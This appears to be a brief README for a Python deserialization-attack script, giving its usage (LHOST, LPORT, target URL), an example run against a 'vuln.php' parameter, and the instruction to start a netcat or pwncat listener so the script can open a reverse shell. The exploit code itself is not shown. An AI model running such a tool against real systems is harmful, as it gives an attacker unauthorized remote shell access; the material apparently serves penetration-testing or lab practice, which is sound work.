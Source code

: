 # desrial-attack

usage:
      python3 deserial-attack.py <LHOST> <LPORT> <TargetURL>
  
example:

      python3 deserial-attack.py 10.10.14.45 1234 http://target.com/vuln.php?vuln= 
      
 This Script make Reverse_shell 
 
 You need start the netcat or pwncat in other terminal before run this script
